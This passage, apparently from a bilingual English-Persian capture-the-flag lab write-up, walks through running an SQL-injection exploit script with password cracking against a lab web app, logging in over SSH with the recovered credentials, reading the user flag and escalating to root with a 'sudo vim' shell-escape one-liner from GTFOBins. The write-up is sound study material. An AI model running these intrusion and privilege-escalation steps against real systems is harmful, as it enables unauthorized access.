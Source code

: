 		3. Copy all codes in page
			1. ![[Pasted image 20240726205433.png]]
		4. Create new file in terminal and Paste Exploit codes in there 
			1. `nano new.py` Paste codes in there
				1. ![[Pasted image 20240726205549.png]]
		5. Now give executable permission to `new.py`
			1. `chmod +x new.py`
				1. ![[Pasted image 20240726205655.png]]
	4. *Launching Exploit* =>
		1. `python new.py` See usage guide
			1. ![[Pasted image 20240726205753.png]]
		2. `python new.py -u http://10.10.91.46/simple --crack -w /usr/share/wordlists/john.lst`
			1. ![[Pasted image 20240726205940.png]]
	5. *Exploit Results* =>
		1. با اجرای اکسپلویت حمله Brute Force برای یافتن پسورد صفحه انجام میشود و پس از یافتن نتیجه آنرا در ترمینال میتوانیم مشاهده کنیم.
			1. ![[Pasted image 20240726210115.png]]
		2. یوزرنیم پیدا شده `mitch` و پسورد آن `secret` میباشد.
		3. همچنین چون که از دو فلگ  `w-` و `crack--` استفاده کردیم، اگر مقدار یافت شده بصورت hash شده باشد که اصولا هم همینطور است، ابزرا بصورت خودکار عملیات Hash Cracking را نیز انجام میدهد.
		4. بنابراین توانستیم با استفاده از آسیب پذیری sqli حمله Brute Force را برای یافتن یوزر و پسورد درون http://10.10.91.6/simple که میتوانیم از آن برای ورود بر بستر ssh استفاده کنیم را با موفقیت پیاده سازی کنیم.
6. *Exploit SSH Services - Get User Flag*
	1. *Logic*
		1. در ابتدای اسکن مشاهده کردیم که سرویس SSH در ماشین تارگت بر روی پورت 2222 Open است.
		2. همچنین در Dir Busting زیر دامنه جدیدی را پیدا کردیم.
		3. در مرحله بعد هم با استفاده از آسیب پذیری پیدا شده و اکسپلویت مناسب حمله Brute Force را بر روی زیر دامنه پیدا شده در ماشین تارگت پیاده سازی کردیم که در این حمله `username` و `password` تارگت را بدست آوردیم. یوزرنیم `mitch` و پسورد `secret` میباشد.
		4. حال که تمام اطلاعات مورد نیازمان را از حمله username, password, port تارگت داریم میتوانیم ارتباط را بر بستر SSH با وب سرور برقرار کنیم.
	2. *Established ssh connection*
		1. `ssh mitch@10.10.88.165 -p 2222` 
		2. Try with `secret` Password and also try with `blank` password
			1. ![[Pasted image 20240726211857.png]]
		3. Now we can run any commands in target machine via ssh connection like `ls`
			1. ![[Pasted image 20240726211956.png]]
	3. *Get User Flag*
		1. Open file in name `user.txt` over ssh connection.
		2. `cat user.txt` Copy flag value `G00d j0b, keep up!`
			1. ![[Pasted image 20240726212146.png]]
		3. Back to `/home` directory and get all users in target server.
			1. ![[Pasted image 20240726212354.png]]
7. *Post Exploit Phase - Escalation Privilege to Get Root Flag*
	0. *First List all process using privilege*
		1.  `sudo -l` => `vim` running with root
			1. ![[Pasted image 20240726212559.png]]
		2. در نتیجه میتوانیم مشاهده کنیم که VIM با دسترسی root در حال اجراست. بنابراین میتوانیم بارفتن به این برنامه دسترسی خود را به root تغییر دهیم.
	1. *Second, goto* https://gtfobins.github.io 
		1. در مرحله بعدی با رفتن به این وبسایت میتوانیم تکه کدی که با استفاده از آن میتوانیم به پروسه VIM مهاجرت کنیم و تغییر دسترسی دهیم را مشاهده کنیم.
		2. Search binary for `vim` and click on this
			1. ![[Pasted image 20240726213109.png]]
		3. Copy `First Line Bash code`
			1. ![[Pasted image 20240726213138.png]]
	2. *Third, Run Copied code on target machine(in ssh connection) to get root access*
		1. `sudo vim -c ':!/bin/sh'`
			1. ![[Pasted image 20240726213250.png]]
		2. به محض اجرا دسترسی ما به یوزر root تغییر میکند و آنرا با کامند `whoami` میتوانیم تست کنیم:
			1. ![[Pasted image 20240726213344.png]]
	3. *Finally, you can get root flag*
		1. `ls`